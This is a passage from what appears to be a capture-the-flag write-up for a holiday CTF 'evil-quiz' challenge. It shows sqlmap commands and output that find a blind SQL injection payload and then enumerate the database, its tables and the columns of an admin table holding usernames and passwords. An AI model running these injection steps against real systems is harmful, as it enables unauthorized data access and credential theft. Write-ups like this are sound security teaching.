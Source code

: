 - The parameter `--save` is really important because it saves all those commands in a config file that can later be referenced when dumping the database.

Let's start talking business.

```bash
> sqlmap -u "https://hackyholidays.h1ctf.com/evil-quiz" \
    --data="name=nytr0gen" \
    --cookie="session=25677e0c322966d2d4cc71b2c3e49e86" \
    --drop-set-cookie --ignore-redirects \
    -p name --dbms=mysql --prefix="'" \
    --technique=B \
    --second-url="https://hackyholidays.h1ctf.com/evil-quiz/score" \
    --string="is 1 other" \
    --proxy="http://localhost:8080/" \
    --save=$PWD/quiz.conf

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.12#stable}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

sqlmap identified the following injection point(s) with a total of 16 HTTP(s) requests:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: name=nytr0gen' AND 5126=5126 AND 'JwkO'='JwkO
---
back-end DBMS: MySQL >= 8.0.0
```

With the payload discovered by sqlmap and the config file saved, I can run the next couple of commands more easily. I need to get the current database, then the tables of the database, then the columns of my target table, and finally the rows.

```
> sqlmap -c $PWD/quiz.conf --current-db
current database: 'quiz'

> sqlmap -c $PWD/quiz.conf -D quiz --tables
Database: quiz
[2 tables]
+-------+
| admin |
| quiz  |
+-------+

> sqlmap -c $PWD/quiz.conf -D quiz -T admin --columns
Database: quiz
Table: admin
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int          |
| password | varchar(250) |
| username | varchar(250) |
+----------+--------------+

> sqlmap -c $PWD/quiz.conf -D quiz -T admin --dump
Database: quiz
Table: admin
[1 entry]
```